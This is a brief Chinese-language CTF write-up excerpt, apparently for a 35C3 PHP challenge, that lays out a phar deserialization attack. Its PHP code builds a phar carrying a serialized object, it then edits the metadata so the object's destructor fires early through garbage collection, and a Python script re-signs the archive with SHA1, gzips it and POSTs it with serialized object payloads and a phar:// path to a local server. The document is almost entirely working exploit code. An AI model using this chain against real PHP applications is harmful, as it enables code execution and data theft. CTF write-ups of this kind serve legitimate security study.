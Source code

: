 绕 throw https://irq5.io/2019/01/07/35c3-ctf-write-up-php/
## 脚本0 -- 重新生成签名

1.生成phar文件 
```php
<?php
class getflag{
}
$o = new getflag();
$phar = new Phar("app.phar");
$phar -> startBuffering();
$phar -> setStub("<?php __HALT_COMPILER();?>");
$phar -> setMetadata([0 =>$o, 1=> 9]); // 随便一个值，一会儿修改
$phar -> addFromString("test.txt","test");
$phar -> stopBuffering();
```
2.修改一下 app.phar中的内容
```
a:2:{i:0;O:7:"getflag":0:{}i:1;i:9;}  =>
a:2:{i:0;O:7:"getflag":0:{}i:0;i:9;}  // 取消掉引用getflag, 于是它马上gc实现垃圾回收, 不用到throw
```
3.重新生成phar签名, -8的位置是02所以是sha1签名
```python
import shutil
import tarfile
import os.path
import gzip
import requests


def resign(src, dst):
    from hashlib import sha1

    f = open(src, 'rb').read()
    s = f[:-28]
    e = f[-8:]

    sign = sha1(s).digest()

    b = s + sign + e
    open(dst, 'wb').write(b)



def make_gzipfile(output_filename, source_file):
    content = open(source_file, 'rb').read()
    f = gzip.open(output_filename, 'wb')
    f.write(content)
    f.close()


if __name__ == "__main__":
    src = 'app.phar'
    dst = 'app.phar1'
    resign(src, dst)
    make_gzipfile('app.gz', dst)

    url = 'http://localhost/?0=O:1:"A":1:{s:6:"config";s:1:"w";}'
    data = {"0": open('app.gz', 'rb').read()}
    requests.post(url, data=data)

    url = 'http://localhost/?0=O:1:"A":1:{s:6:"config";s:1:"r";}'
    data = {"0": 'phar://tmp/a.txt'}
    requests.post(url, data=data)
```